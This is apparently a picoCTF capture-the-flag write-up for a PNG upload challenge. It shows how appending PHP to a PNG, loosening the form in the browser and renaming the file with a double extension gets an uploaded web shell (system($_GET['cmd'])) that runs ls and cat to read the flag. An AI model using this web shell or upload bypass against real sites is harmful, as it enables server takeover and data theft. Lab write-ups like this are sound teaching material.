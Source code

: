 ## Description

I found a web app that can help process images: PNG images only!
Additional details will be available after launching your challenge instance.

## Solution

1. try navigate to /robots.txt on url. we are going to see interesting file.

```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

2. seem _instructions.txt_ is interesting. let navigate to that file on url (http://atlas.picoctf.net:54757/instructions.txt)

```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

3. since our webpage allow for upload the .png file only. let see if we can trick the webpage to upload _Arbitrary code execution_. since the file upload _.png_ and the web server is running php, there could be possible chance that we could inject the php code into the image file. let try the following command
   a. echo "<?php phpinfo();?>" >> apple.png
   b. inspect element and allow all type of file upload in the <form> tag
   c. seems application is allow only png file, we could rename the _apple.png_ to _apple.png.php_ since it still valid _.png_ file. when we navigate to the following file upload it will execute the php code
   d. walla we can see the php execute success on the server

4. if we could execute arbitary php code let allow passing command via url (http://atlas.picoctf.net:54757/uploads/apple-1.png.php?cmd=ls)

- inject this following code to the image and upload the new one

```
echo "<?php echo system($_GET['cmd']); ?>" >> apple-1.png
```

- rename the file to apple-1.png.php and reupload again

5. navigte *http://atlas.picoctf.net:54757/uploads/apple-1.png.php?cmd=ls* you could see the list of interesting file:

```
GAZWIMLEGU2DQ.txt
index.php
instructions.txt
robots.txt
uploads
```

6. let check the content of _GAZWIMLEGU2DQ.txt_ by running the following *http://atlas.picoctf.net:54757/uploads/apple-1.png.php?cmd=cat /var/www/html/GAZWIMLEGU2DQ.txt*
7. walla we see the flag: _picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_03d1d548}_
